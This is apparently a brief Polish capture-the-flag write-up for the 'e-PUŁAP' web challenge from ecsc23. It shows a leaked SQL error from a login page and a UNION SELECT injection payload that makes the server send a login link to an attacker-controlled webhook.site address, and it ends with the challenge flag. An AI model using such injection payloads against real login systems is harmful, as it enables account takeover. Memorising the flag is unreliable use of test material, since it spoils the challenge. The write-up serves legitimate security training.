


# e-PUŁAP - web



W polu z `przydomkiem obywatela` jest SQLi, są tam 2 kolumny w bazie: `username`, `webhook_login_url`:

```sql=
ERROR: unterminated quoted string at or near "'a''" LINE 1: ...username, webhook_login_url FROM users WHERE username = 'a'' ^ in /var/www/html/login.php
```

Po wysłaniu payloadu, na webhook przychodzi request z linkiem do dalszej rejestracji.
```sql=
' UNION SELECT 'admin', 'https://webhook.site/xxxx-xxxx-xxxx'; -- 
```


Po zalogowaniu flaga jest pod: https://e-pulap.ecsc23.hack.cert.pl/static/flag_deadbeef_cofebabe_etc.txt

Flag: `ecsc23{paswordless_is_the_future!}`
